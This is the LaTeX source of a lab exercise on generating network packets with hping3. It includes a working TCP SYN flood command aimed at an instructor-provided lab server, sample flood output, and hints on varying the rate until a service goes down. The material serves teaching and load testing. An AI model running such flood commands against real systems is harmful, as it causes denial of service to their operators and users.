 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
{\bf Purpose:}\\
See how easy it is to produce packets on a network using hacker programs.

The tool we will use is very flexible and can produce ICMP, UDP and TCP using very few options. This tool is my primary one for doing professsional DDoS testing.

\begin{alltt}\footnotesize
-1 --icmp
       ICMP  mode,  by  default  hping3  will  send  ICMP echo-request, you can set other ICMP
       type/code using --icmptype --icmpcode options.

-2 --udp
       UDP mode, by default hping3 will send udp to target host's port 0.  UDP header  tunable
       options are the following: --baseport, --destport, --keep.
\end{alltt}

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}

You can try different ports with TCP flooding, try port 22/tcp or HTTP(S) port 80/tcp and 443/tcp


{\bf Hints:}\\
The tool we use can do a lot of different things, and you can control the speed. You can measure at the server being attacked or what you are sending, commonly using ifpps or such programs can help.

By changing the speed we can find out how much traffic is needed to bring down a service. This measurement can then be re-checked later and see if improvements really worked.
\end{document}
